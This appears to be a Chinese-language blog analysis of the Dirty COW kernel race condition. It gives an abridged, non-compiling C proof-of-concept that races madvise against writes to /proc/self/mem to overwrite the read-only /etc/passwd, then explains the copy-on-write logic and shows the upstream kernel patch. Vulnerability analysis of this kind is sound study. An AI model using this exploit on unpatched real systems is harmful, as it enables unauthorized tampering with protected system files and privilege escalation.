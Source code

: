 ```yaml
---
layout: default
---
```


# Dirty COW Analysis
## POC

POC很简单：
* 主进程只读打开权限文件，并mmap到map地址，权限是READ & PRIVATE
* madvise进程不停释放map对应的内存页，madvise(map, 100, MADV\_DONNTNEED)
* procselfmem进程以O\_RDWR权限代开/proc/self/mem伪文件，试图写入任何内容到权限文件

```c
void * map;
void * madviseThread(void * arg) {
    while(1) {
    madvise(map, 100, MADV_DONNTNEED);
    }
}
void * procselfmemThread(void * arg) {
    int f = open("/proc/self/mem", O_RDWR);
    lseek(f, map, SEEK_SET);
    write(f, arg, strlen(arg));
}

int main() {
    f = open("/etc/passwd", O_RDONLY);
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    pthread_create(&pth1, NULL, madviseThread, "");
    pthread_create(&pth2, NULL, procselfmemThread, "anything");
    pthread_join(&pth1, NULL);
    pthread_join(&pth2, NULL);
    return 0;
}
```

## 核心代码分析

核心逻辑：
- write("/proc/self/mem", map, "anything")时，会触发核心的内存页管理系统。
  - 首次，缺页并调页(page in)
  - 第二次，页表没有写权限，去处FOLL\_WRITE请求标志(这是合理的：因为open成功了，说明可以写，页表的权限不可写也是自洽的，例如copy-on-write)。
  - 第三次，去除FOLL\_WRITE标志请求页面，成功请求。
BUG逻辑：
  - 首次，缺页并调页(page in)
  - 第二次，页表没有写权限，去处FOLL\_WRITE请求标志(这是合理的：因为open成功了，说明可以写，页表的权限不可写也是自洽的，例如copy-on-write)。
  - madvise清空map的页表项
  - 第三次，去除FOLL\_WRITE(只读访问)，发现缺页，调页(page in)
  - 第四次，只读访问获取页面，并成功写入"anything"，置页表项标志为脏
  - 最后写回文件

## Patch

```c
diff --git a/include/linux/mm.h b/include/linux/mm.h
index e9caec6..ed85879 100644
--- a/include/linux/mm.h
+++ b/include/linux/mm.h
@@ -2232,6 +2232,7 @@ static inline struct page *follow_page(struct vm_area_struct *vma,
 #define FOLL_TRIED	0x800	/* a retry, previous pass started an IO */
 #define FOLL_MLOCK	0x1000	/* lock present pages */
 #define FOLL_REMOTE	0x2000	/* we are working on non-current tsk/mm */
+#define FOLL_COW	0x4000	/* internal GUP flag */
 
 typedef int (*pte_fn_t)(pte_t *pte, pgtable_t token, unsigned long addr,
 			void *data);
diff --git a/mm/gup.c b/mm/gup.c
index 96b2b2f..22cc22e 100644
--- a/mm/gup.c
+++ b/mm/gup.c
@@ -60,6 +60,16 @@ static int follow_pfn_pte(struct vm_area_struct *vma, unsigned long address,
 	return -EEXIST;
 }
 
+/*
+ * FOLL_FORCE can write to even unwritable pte's, but only
+ * after we've gone through a COW cycle and they are dirty.
+ */
+static inline bool can_follow_write_pte(pte_t pte, unsigned int flags)
+{
+	return pte_write(pte) ||
+		((flags & FOLL_FORCE) && (flags & FOLL_COW) && pte_dirty(pte));
+}
+
 static struct page *follow_page_pte(struct vm_area_struct *vma,
 		unsigned long address, pmd_t *pmd, unsigned int flags)
 {
@@ -95,7 +105,7 @@ retry:
 	}
 	if ((flags & FOLL_NUMA) && pte_protnone(pte))
 		goto no_page;
-	if ((flags & FOLL_WRITE) && !pte_write(pte)) {
+	if ((flags & FOLL_WRITE) && !can_follow_write_pte(pte, flags)) {
 		pte_unmap_unlock(ptep, ptl);
 		return NULL;
 	}
@@ -412,7 +422,7 @@ static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
 	 * reCOWed by userspace write).
 	 */
 	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
-		*flags &= ~FOLL_WRITE;
+	        *flags |= FOLL_COW;
 	return 0;
 }
```
